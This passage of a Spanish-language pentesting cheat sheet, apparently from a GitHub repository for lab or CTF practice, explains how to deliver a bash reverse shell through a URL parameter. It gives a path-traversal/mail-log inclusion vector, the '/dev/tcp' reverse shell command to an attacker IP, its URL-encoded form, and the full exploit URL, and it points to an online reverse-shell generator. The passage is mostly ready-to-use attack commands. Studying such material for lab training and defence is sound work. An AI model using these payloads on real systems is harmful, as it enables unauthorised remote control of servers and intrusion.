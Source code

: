 #### Ejemplo:

```bash
bash -c 'comando1; comando2; ...'
```

---
<a name="envio"></a>
### 🌍 Envío de reverse shell a través de una URL (URL encoding)

Si el vector de envío de la reverse shell es a través de una URL, es recomendable **encodear** la reverse shell.

#### Ejemplo:

Vector de entrada:

```
http://172.17.0.2/test.php?page=../../../../../var/mail/www-data&cmd=<COMANDO A ENVIAR>
```

Reverse shell:

```bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/445 0>&1"
```

Envío directo en la URL (sin encodear):

```
http://172.17.0.2/test.php?page=../../../../../var/mail/www-data&cmd=bash -c "bash -i >& /dev/tcp/172.17.0.1/445 0>&1"
```

⚠️ Esto probablemente cause un error de interpretación, por lo que se recomienda encodear la reverse shell.

#### Encodeo manual:

Usar [https://www.urlencoder.org/](https://www.urlencoder.org/) para obtener la versión encodeada.

Resultado:

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%22
```

Envío final:

```
http://172.17.0.2/test.php?page=../../../../../var/mail/www-data&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%22
```

👉 Desde [https://www.revshells.com/](https://www.revshells.com/) también tienes la opción de encodear directamente.

---
<a name="recomendaciones"></a>
## 📝 Recomendaciones adicionales
